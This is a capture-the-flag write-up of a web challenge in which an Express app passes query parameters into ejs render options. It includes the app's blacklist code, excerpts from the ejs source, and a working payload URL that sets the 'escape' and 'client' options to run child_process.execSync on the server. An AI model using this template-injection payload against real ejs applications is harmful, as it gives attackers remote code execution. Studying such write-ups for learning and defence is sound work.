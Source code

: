 

`Author: eliyah`

`Challenge: Express Javascript Security`

# Overview

We are given a url to the site and the site code which you can find in the challenge directory.

The website has 2 endpoints. Root (`/`) endpoint and the `/greet` endpoint. On the first one is a form that just sends you to the `/greet` endpoint with some query parameters set (font, fontSize, name). With the given parameters second endpoint just returns page with hello message styled with selected font and size.

`http://ejs.web.seetf.sg:1337/`:

![Screenshot](ss1.png)

=> `http://ejs.web.seetf.sg:1337/greet?name=someName&font=Arial&fontSize=20`:

![Screenshot](ss2.png)

Also, in the docker container there is `/readflag` executable that outputs the flag to stdout. 

# Code examination and solution

Because of this section of code in the main.js the function that is used for rendering ejs templates is [renderFile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441).
```js
// main.js

// ejs v3.1.9
app.set('view engine', 'ejs');
```


Array of filters that mustn't be found in the request query:

```js
// main.js

const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

The vulnerable function:

```js
// main.js

app.get('/greet', (req, res) => {
    
	const data = JSON.stringify(req.query);
    	if (BLACKLIST.find((item) => data.includes(item))) {
        	return res.status(400).send('Can you not?');
   	}
	
    // Vulnerability is here
	// because the req.query object is passed 
	// directly to the render function.
    // This is not good practice because 
    // an adversary can make use of the 
    // rendering options.
    return res.render('greet', { 
    	...JSON.parse(data),
    	cache: false
    });
});
```
- *Rendering options can also be passed through the data argument of the renderFile function through the settings object. [RENDERING OPTIONS](https://github.com/mde/ejs/blob/main/docs/jsdoc/options.jsdoc)*

Parts of [renderFile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441):
```js
// github repo: mde/ejs
// lib/ejs.js

exports.renderFile = function(){
	//... 
	if (data.settings) {
		//...
		viewOpts = data.settings['view options'];
        	if (viewOpts) {
          		utils.shallowCopy(opts, viewOpts);
        	}
	}
	//...
	
}
```
- *When there is only one argument(data) specified in the render call the function copies rendering options from the `data`'s `settings[view options]` field. With this in mind I could pass url like `http://ejs.web.seetf.sg:1337?settings[view options][escape]=...` and it will set the option `escape` to the passed value.*

Because of the BLACKLIST filters some template render options cannot be used. Fortunately in the BLACKLIST there is only `escapeFunction` option and not it's alias `escape`. What I can do with this?

I took another look at the ejs source and i found something interesting.

- *When rendering template, ejs is dynamically creating function that will assemble the template with the data passed to it. The function is compiled from the string which is dynamically created based on the template. All of this is happening in the [compile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441) function of the `Template` class that eventually gets called.*

Parts of [Template.compile](https://github.com/mde/ejs/blob/main/lib/ejs.js#L441):
```js
// github repo: mde/ejs
// lib/ejs.js

Template.protorype={
    //...
    compile = function() {
	//...
	var escapeFn = opts.escapeFunction;
	//...
	if (opts.client) {
		// src is the string containing the source code of the function that assembles the template
     		src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
    	}
}
```

Looking at this piece of code it looks like that I can pass my own function to the escapeFn if the opts.client is true. 

- *The `escapeFn` is called for the every variable name found between delimiters `<%=` and `%>`. In short, every appearance of the `<%= var_name %>` is replaced with the result value of `escapeFn(var_name)`.
You can find it in [this function](https://github.com/mde/ejs/blob/main/lib/ejs.js#L815).*

So I tried with the payload:

```
http://ejs.web.seetf.sg:1337/greet?settings[view%20options][escape]=function(){return%20process.mainModule.require(%27child_process%27).execSync(%27/readflag%27)}&font=aaa&fontSize=aaa&settings[view%20options][client]=true&name=aaa
```

And it was successful :D

![Screenshot](ss3.png)




